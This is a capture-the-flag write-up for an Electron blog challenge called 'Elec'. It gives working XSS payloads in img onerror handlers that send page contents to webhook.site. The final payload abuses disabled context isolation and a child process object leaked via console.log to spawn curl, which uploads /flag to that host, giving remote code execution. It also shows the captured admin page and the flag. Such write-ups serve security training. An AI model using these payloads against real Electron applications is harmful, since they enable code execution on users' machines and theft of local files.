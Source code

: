 ```yaml
---
created: 2024-06-21T22:48
updated: 2024-06-23T19:24
tags:
  - fav
---
```


# Elec
## Analysis

- Seems to be XSS, but the flag is stored on the file system `/flag`.
- It's an electron app
## Probing

First let's prob it with a bunch of XSS payloads, check fields on `window` etc.

To prevent the script from running on my own computer, I've set a `localStorage` item called `no-go`.

```html
<img src =q onerror="if(!localStorage.getItem('no-go')){
					 window.addEventListener('load', async () => {
	setTimeout(()=>{location='https://webhook.site/?w='+document.body.innerHTML.replace(/\s+/g,'');},1000)
	 });}">

<img src =q onerror="if(!localStorage.getItem('no-go'))window.addEventListener('load', async () => {
	setTimeout(()=>{location='https://webhook.site/?w='+JSON.stringify(Object.keys(window));},1000)
	 });">
	 
<img src =q onerror="if(!localStorage.getItem('no-go'))window.addEventListener('load', async () => {try{
	const replaceWithTypes = obj => Object.fromEntries(Object.entries(obj).map(([k, v]) => [k, [typeof v, typeof v === 'function'?v.toString():v]]));
	location='https://webhook.site/?w='+JSON.stringify(replaceWithTypes(window.__Process$));
	}catch(e){
location='https://webhook.site/?w='+String(e);
}});">
```

```html
<navclass="mb-3navbarnavbar-expand-lgbg-body-tertiary"><divclass="container"><aclass="navbar-brand"href="/">Blog</a></div></nav><divclass="container"><h1class="mb-3">w</h1><divid="content"class="mb-3"><imgsrc="q"onerror="if(!localStorage.getItem('no-go'))window.addEventListener('load',async()=>{setTimeout(()=>{location='https://webhook.site/?w=' document.body.innerHTML.replace(/\s /g,'');},1000)});"></div><formmethod="post"action="/report/cccc208b-9e06-4ed5-8ff3-35ebe90fa330"><buttontype="submit"class="btnbtn-secondary">Report</button></form></div><footerid="admin-footer"class="mt-3p-3bg-light"><divclass="container">Adminconsole<spanid="app-version">0.0.1</span>,Node.js<spanid="node-version">20.11.1</span>,Chromium<spanid="chrome-version">124.0.6367.230</span>,Electron<spanid="electron-version">30.0.8</span>,<spanid="kernel-info">Linux74e6f3ed79eb6.1.92-99.174.amzn2023.x86_64
```

Other than that, nothing interesting.

> `window.__Process$` was just a dummy `process` object with no real use.

---
## Electron RCE

```js
const win = new BrowserWindow({
	width: 800,
	height: 600,
	webPreferences: {
		preload: path.join(__dirname, "preload.js"),
		contextIsolation: false,
		sandbox: false,
	},
});
```

With some googling I found out that `contextIsolation: false` means the renderer runs in the same context, so I am actually running on node's context.

> Failed attempt on prototype pollution
> Tried to pollute `options.shell` `options.file` etc, didn't work.

## Final Solution

```html
<img src =q onerror="if (!localStorage.getItem('no-go')) {
    let s = [];
  	console.log = (cp) => {
	  	if(!cp.spawnfile) return;
	  	const cp2 = new cp.constructor();
		cp2.spawn({ shell: true, file: 'curl', args: ['curl', '-F', 'flag=@/flag', 'https://webhook.site/'] });
		s.push('yay!')
  	};
    window.addEventListener('load', async () => {
        setTimeout(() => {
            let p = (new URLSearchParams({
                kernal: document.getElementById('kernel-info').textContent,
                logs: JSON.stringify(s),
                body: document.body.innerHTML.replace(/\s+/g, ' '),
            })).toString();
            location = 'https://webhook.site/?' + p.toString();
        }, 1000)
    });
}">
```

### Explanation

In `preload.js`

```js
...
const cp = spawn("uname", ["-a"]);
console.log(cp);
...
```

We can see that the child process object is sent to `console.log`, which we can take control over.

So we now have access to `cp`, we will create a new child process object with the command we want to run, and that is `curl`.

```js
const cp2 = new cp.constructor();
cp2.spawn({ shell: true, file: 'curl', args: ['curl', '-F', 'flag=@flag', 'https://webhook.site/'] });
```

### Simplified

```html
<img src =q onerror="{
	console.log = (cp) => {
		if(!cp.spawnfile) return;
		const cp2 = new cp.constructor();
		cp2.spawn({ shell: true, file: 'curl', args: ['curl', '-F', 'flag=@/flag', 'https://webhook.site/'] });
	};
}">
```

```
FLAG{r3m07e_c0d3_execu710n_v1a_3l3c7r0n}
```
